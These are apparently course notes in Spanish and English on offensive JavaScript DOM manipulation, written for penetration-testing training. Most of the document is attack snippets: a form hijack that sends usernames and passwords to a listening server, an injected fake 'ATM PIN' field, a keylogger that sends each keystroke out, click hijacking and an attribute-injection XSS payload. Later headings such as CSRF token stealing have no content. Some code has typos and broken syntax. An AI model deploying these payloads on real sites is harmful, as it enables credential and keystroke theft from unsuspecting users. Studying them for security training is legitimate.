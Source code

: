 #### CallBack
> Recibir como parámetro a una función  
> Es una forma de asegurarnos de q un determinando codigo no se ejecuta hasta que otro codigo haya terminado de ejecutarse

### 1. Modificar HTML
**getElementsByTagName()** acepta un nombre de etiqueta y devuelve una colección HTML en vivo de elementos con el nombre de etiqueta coincidente en el orden en que aparecen en el documento.

```
document.getElementsByTagName("button")[0].innerHTML="JAVASCRIPT";
document.getElementsByTagName("h1")[0].innerHTML="Found";
```

### 2. Modificar los links
```
var links = document.getElementsByTagName("a");
for  (i=0; i<links.length; i++){
  links[i].href = "http://debiantano.github.io";
  links[i].innerHTML = "Link Modificado";
}
```

### 3. Hijack form submit
> Número de elementos \<form\> en el documento:  
```let num = document.forms.length;```  
> Obtenga la identificación del primer elemento <form>:  
```let id = document.forms[0].id;```  

```
function InterceptForm(){
  var username = document.forms[0].elements[0].value;
  var username = document.forms[0].elements[1].value;
  alert(username + ' : ' + password);
}
document.forms[0].onsubmit = InterceptForm;
```

```
> python -m SimpleHTTPServer 8000
function InterceptForm(){
  var username = document.forms[0].elements[0].value;
  var username = document.forms[0].elements[1].value;
  new Image().src = "http://localhost:8000/?username=' + username + "&password=" + password;
}
document.forms[0].onsubmit = InterceptForm;
```

### 4. Modify form fields
```
var input = document.createElement("input");

input.setAttribute("type", "text");
input.setAttribute("class", "input-block-level");
input.setAttribute("placeholder", "ATM PIN");
input.setAttribute("name", "atmpin");

var provius = document.forms[0].elements[0];

document.forms[0].insertBefore(input, previous);
docuemnt.forms[0].action = "http://localhost:8000/"
```

### 5. Ingenieria social
```
var input = document.createElement("h2");
input.innerHTML = "Sitio web subido. Por favor visita pentesteracademy.com";
document.forms[0].parentNode.appendChild(input)
```

```
var input = document.createElement("h2");
input.innerHTML = "Sitio web subido. Por favor visita pentesteracademy.com";
document.forms[0].parentNode.appendChild(input)
document.forms[0].parentNode.appendChild(document.forms[0)
```

### 6. Capture all clicks
```
function CaughtClick(){
  alert("You clicked");
}
document.body.addEventListener('click', CaughtClick, true);
```

```
function CaughtClick(){
  location.href = "https://google.es";
}
document.body.addEventListener('click', CaughtClick, true);
```

### 7. Keystroke logging
```
> python -m SimpleHTTPServer 8000
document.onkeypress = function Keylogger(inp){
  key_pressed = String.fromCharCode(inp.which);
  new Image().src = "http://localhost:9000/?" + key_pressed;
}
```

### 8. Event listener
```
" anmouseover="alert(1);

document.forms[0].onsubmit = function demo(){
  var pass = document.forms[0].elements[1].value;
  alert(pass);
}
```

### 9. Include external
### 10. Include external js using
### 11. Solution replace banner
### 12. Solution Stealing from autocomplete
### 13. Posting with xmlHTTPrequest
### 14. Fetching data with xmlHTTPrequest
### 15. Data exfiltration with xmlHTTPrequest
### 16. Extraching CSRF tokens
### 17. CSRF token stealing
### 18. HTML parsing of xmlHTTPrequest response
### 19. Solution multilevel html parsing
### 20. Solution multilevel js parsing
### 21. Solution multilevel xml parsing

